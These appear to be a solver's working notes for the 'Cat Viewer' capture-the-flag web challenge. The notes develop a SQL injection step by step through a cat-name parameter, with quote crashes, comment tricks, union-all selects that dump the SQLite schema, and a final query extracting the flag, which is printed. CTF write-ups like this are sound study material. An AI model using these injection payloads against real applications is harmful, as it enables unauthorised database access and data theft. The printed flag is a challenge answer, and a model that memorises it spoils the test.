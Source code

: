 # Cat Viewer
> I built a little web site to search through my archive of cat photos. I hid
> a little something extra in the database too. See if you can find it!
> https://nessus-catviewer.chals.io/> 

https://nessus-catviewer.chals.io/index.php?cat=


## Notes
- The param `cat` can be left empty to show all cats.
- Cat Winston Tarver is a poem.
- 


- double quote gets a crash.

select * from cats where name="Sheldon"

paylod=Sheldon"
select * from cats where name="Sheldon""
> SQLite3::query(): Unable to prepare statement: 1, unrecognized token: &quot;&quot;&quot
> translated: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: '"'

paylod=Sheldon"/*
paylod=Sheldon"--
select * from cats where name="Sheldon"--"
> No crash but also no results

Sheldon"*
> Unable to prepare statement: 1, near "%": syntax error in /var/www/html/index.php on line 19


select * from cats where LIKE "%QUERY%"

`"--` gives all cats
`" and 1=0--` gives nothing as expected
`" intersect select sqlite_version() as name, 2--` gives nothing as expected
`" intersect select sql as name from sqlite_schema-` gives nothing as expected
" intersect select sqlite_version() as Name, 2, 3, 4--

`NOTHING" union all select 1, 'Img', 'Name', 4 "--` gives us exfil on img/name fields

`NOTHING" union all select 1, 'Img', (select sql from sqlite_schema), 4 "--` GET SCHEMA

```
CREATE TABLE cats (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    image TEXT NOT NULL,
    name TEXT NOT NULL,
    flag TEXT NOT NULL
```

`NOTHING" union all select * from cats where flag IS NOT NULL"--` GET SCHEMA

`NOTHING" union all select 1, 2, flag, 4 from cats where flag != ''--`
> Name: flag{a_sea_of_cats}


Model: id, image, name, idk


select * from cats where LIKE "%" intersect --%"




select * from cats where LIKE "%don%"--%"

Double:
select * from cats where name="Sheldon"""

select * from cats where name="Sheldon" or 1=1--
